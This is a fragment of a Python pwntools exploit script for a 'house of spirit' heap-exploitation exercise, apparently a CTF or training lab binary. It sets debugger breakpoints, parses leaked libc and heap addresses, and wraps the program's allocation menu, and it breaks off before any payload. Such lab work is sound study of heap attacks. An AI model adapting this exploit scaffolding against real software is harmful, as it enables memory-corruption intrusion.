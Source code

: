 

shell_no_heap_leak.py

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_spirit', checksec=False)

libc = ELF('../.glibc/glibc_2.30_no-tcache/libc.so.6', checksec=False)

gs = """
b *main


b *main+270
b *main+327

b *main+415

b *main+541
b *main+652
b *main+707

b *main+792
b *main+873



"""

index = 0

def info(mes):
    return log.info(mes)

def handle():
    global puts
    global heap
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    info('puts @ ' + hex(puts))
    info("heap @ " + hex(heap))
    return puts, heap
    
def info_user(age, name):
    io.sendafter(b'Enter your age: ', str(age).encode())
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')
    
def malloc(size, data, chunk_name):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.sendafter(b'data: ', data)
    io.sendafter(b'chunk name: ', chunk_name)
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    
def free(index):
```